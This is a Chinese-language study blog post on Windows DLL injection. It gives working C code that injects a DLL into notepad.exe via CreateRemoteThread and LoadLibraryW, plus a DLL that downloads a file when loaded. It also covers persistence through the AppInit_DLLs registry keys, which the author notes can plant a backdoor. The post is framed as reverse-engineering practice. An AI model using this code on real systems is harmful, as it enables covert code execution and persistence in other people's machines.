前面学的只是简单的Hook，现在正式开始DLL注入的学习。


# 0x01 DLL注入概念

DLL注入指的是向运行中的其它进程强制插入特点的DLL文件。

从技术细节上来说，DLL注入就是命令其它进程**自行调用`LoadLibrary()` API，加载用户指定的DLL文件**。

概念示意图：


很关键的一个点：

加载到notepad.exe进程的myhack.dll**具有对notepad.exe进程内存合法的访问权限！**

那我们就可以"为所欲为"了。


这里还涉及到一个点：

> DLL被加载到进程后**会自动运行DllMain()函数**，用户可以把待执行的代码放在DllMain()函数内。

类似Java反序列化构造恶意类的静态方法，或者是LD_PRELOAD绕过disable_function的那个`__attribute__`




# 0x02 DLL注入实现——`CreateRemoteThread`

## 核心代码：




## 核心思路：

- `OpenProcess`：获取目标进程句柄
- `VitrualAllocEx`：在目标进程内存中分配对应大小的内存
- `WriteProcessMemory`：将待注入的dll路径写入上一步分配的内存中
- `GetModuleHandleW` + `GetProcAddress`：获取`LoadLibrary()`API的地址
- `CreateRemoteThread`：传入`LoadLibrary()`API地址和dll路径地址，调用`LoadLibrary("myhack.dll")`，触发`DllMain`函数执行。


这里有几个点得注意下。

## 注意点

### `CreateRemoteThread`

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```


我们这里关注两个参数：`lpStartAddress`和`lpParameter`




这也是为什么我们要获得`LoadLibrary()`API的地址，以及将`myhack.dll`路径字符串写入目标进程的内存。


### `kernel32.dll`

这里我们`LoadLibrary()`这些都是在我们**当前进程获取的**，并不是在**目标进程notepad.exe**。

可以这么做的原因（也是这种DLL注入能成功的原因）：




### `ThreadProc` && `LoadLibrary`

这个也是很有趣的点。




两者接收的参数是类似的，所以完全可以将`LoadLibray`传为`ThreadProc`参数，把`LoadLibrary`的参数`lpFileName`传为`lpParameter`。


---

下面开始手写一下代码。


## 代码编写


### dll

这里编写用到了一个小技巧：

我们可以实现另一个函数，然后DllMain用CreateThread来调用。（避免了DllMain中写大量代码）

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

#include<Windows.h>
#include<urlmon.h>

#pragma comment (lib,"Urlmon.lib")
#define URL (L"https://www.runoob.com")
#define FILENAME (L"C:\\Users\\Administrator\\Desktop\\down.html")

DWORD WINAPI down(LPVOID lpParam) {
    HRESULT hResult = URLDownloadToFileW(NULL, URL, FILENAME, 0, NULL);
    if (hResult == S_OK) {
        OutputDebugString(L"下载成功！\n");
    }
    else {
        OutputDebugString(L"下载失败！\n");
        return 1;
    }
    return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(NULL, "DLL Injected!\n", "REVERSING", MB_OK);
        HANDLE hThread = CreateThread(NULL, 0, &down, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    }
    return TRUE;
}
```


### main

```c
#include<Windows.h>
#include<stdio.h>
#include<stdlib.h>
#include<tchar.h>
#include<iostream>
using namespace std;

void Inject(DWORD dwPid, WCHAR* szPath) {
	DWORD dwBufSize = (DWORD)(wcslen(szPath) + 1) * sizeof(WCHAR);
	// 1. OpenProcess()
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);

	// 2. VitrualAllocEx()
	LPVOID pRemoteAddress = VirtualAllocEx(
		hProcess,
		NULL,
		dwBufSize,
		MEM_COMMIT,
		PAGE_READWRITE
	);

	// 3. WriteProcessMemory()
	WriteProcessMemory(
		hProcess, pRemoteAddress, szPath, dwBufSize, NULL
	);

	// 4. GET LoadLibraryW
	HMODULE hK32 = GetModuleHandle(L"kernel32.dll");
	LPVOID pLW = GetProcAddress(hK32,"LoadLibraryW");
	cout << "loadAdd:" << pLW << "\n";

	// 5. CreateRemoteThread()
	HANDLE hThread = CreateRemoteThread(
		hProcess,
		NULL,
		0,
		(LPTHREAD_START_ROUTINE)pLW,
		pRemoteAddress,
		0,
		NULL
	);
	if (!hThread)
	{
		printf("CreateRemoteThread Failed");
	}

	WaitForSingleObject(hThread, -1);
	VirtualFreeEx(hProcess, pRemoteAddress, dwBufSize, MEM_DECOMMIT);
}
int _tmain(int argc, _TCHAR* argv[]) {
	wchar_t wStr[] = L"C:\\Users\\Administrator\\Desktop\\逆向练习\\DLL Injection\\dll\\Dll1\\x64\\Debug\\Dll1.dll";
	DWORD dwPid = 0;
	HWND hNotepad = FindWindowA("Notepad", NULL); // 首字母大写。。

	// get PID
	DWORD dwRub = GetWindowThreadProcessId(hNotepad, &dwPid);
	printf("目标窗口的进程PID为 : %d\n", dwPid);

	Inject(dwPid, wStr);

	system("pause");
	return 0;
}
```


## 效果






# 0x03 DLL注入实现——`AppInit_DLLs`

这种在渗透中可以留后门。


## 原理




## dll编写

> 若当前加载自己的进程为"notepad.exe"，则以隐藏模式运行IE，连接指定网站。

这里就不按教程的写法了，而是直接把先前的dll修改一下，加一个`notepad.exe`的判断

dll:

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

#include<Windows.h>
#include<urlmon.h>
#include<tchar.h>

#pragma comment (lib,"Urlmon.lib")
#define URL (L"https://www.runoob.com")
#define FILENAME (L"C:\\Users\\Administrator\\Desktop\\down2.html")
#define TARGET_PROC (L"notepad.exe")

DWORD WINAPI down(LPVOID lpParam) {
    HRESULT hResult = URLDownloadToFileW(NULL, URL, FILENAME, 0, NULL);
    if (hResult == S_OK) {
        OutputDebugString(L"下载成功！\n");
    }
    else {
        OutputDebugString(L"下载失败！\n");
        return 1;
    }
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    TCHAR szPath[MAX_PATH] = { 0 };
    TCHAR *p = NULL;

    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        if (!GetModuleFileName(NULL, szPath, MAX_PATH))
            break;
        if (!(p = _tcsrchr(szPath, '\\')))
            break;
        if (_tcsicmp(p + 1, TARGET_PROC))
            break;
        
        HANDLE hThread = CreateThread(NULL, 0, &down, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    }
    return TRUE;
}


```

编译后放在`C:/Users/Administrator/Desktop/Dll2.dll`


## 编辑注册表

然后编辑注册表。（记得先导出备份）


编辑`AppInit_Dlls`




再修改`LoadAppInit_Dlls`注册表项的值为1.


重启。

然后用`ProcessMonitor`看，随便找个调用了User32.dll的进程：



可以看到我们自己的`Dll2.dll`已经加载了。


那我们尝试运行notepad.exe



成功。


当然，实战中这种必会被杀软杀掉。。所以只是当个技巧知识点掌握一下。


# 总结

这技术是真牛，一定得多练，练会！！！

共勉！


